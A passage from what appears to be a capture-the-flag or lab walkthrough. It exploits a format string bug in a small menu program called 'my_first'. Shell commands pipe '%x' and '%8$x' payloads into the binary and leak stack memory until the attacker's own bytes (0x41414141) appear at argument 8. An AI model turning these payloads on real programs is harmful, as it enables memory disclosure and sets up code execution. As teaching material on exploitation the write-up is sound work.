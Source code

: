 ```bash
mike@pegasus:~$ printf '1\n1\nAAAA.0x%%x\n4\n' | ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details: AAAA.0xbff5321c

Selection:
Goodbye!
```

And we have the output of `AAAA.0xbff5321c`. Yay :)
Continuously incrementing this will eventually get you to argument 8, where you will find the clean string of hex A's:

```bash
mike@pegasus:~$ printf '1\n1\nAAAA.0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x\n4\n' | ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details: AAAA.0xbfbd145c0xa0xb75b41600xb7726ac00xb7752ff40xb77539180xbfbd14600x41414141

Selection:
Goodbye!
mike@pegasus:~$
```

So, using direct parameter access in the format string, we can reference parameter 8 directly:

```bash
mike@pegasus:~$ printf '1\n1\nAAAA.0x%%8$x\n4\n' | ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details: AAAA.0x41414141

Selection:
Goodbye!
mike@pegasus:~$
```

